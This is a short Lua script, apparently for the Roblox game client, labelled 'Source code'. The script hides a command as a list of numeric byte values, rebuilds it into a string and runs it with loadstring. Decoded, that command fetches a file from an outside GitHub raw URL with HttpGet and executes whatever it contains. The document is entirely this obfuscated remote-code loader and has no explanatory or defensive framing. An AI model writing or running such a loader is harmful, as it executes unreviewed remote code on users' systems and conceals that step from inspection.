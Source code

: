local bytes = {
  108,111,97,100,115,116,114,105,110,103,40,103,97,109,101,58,72,116,116,112,71,101,116,40,34,104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,99,111,111,108,107,105,100,118,105,101,116,110,97,109,47,77,97,104,111,97,116,111,110,103,104,111,112,47,114,101,102,115,47,104,101,97,100,115,47,109,97,105,110,47,82,69,65,68,77,69,46,109,100,34,41,41,40,41,41
}

local s = {}
for i=1,#bytes do s[i] = string.char(bytes[i]) end
local final = table.concat(s)
loadstring(final)()
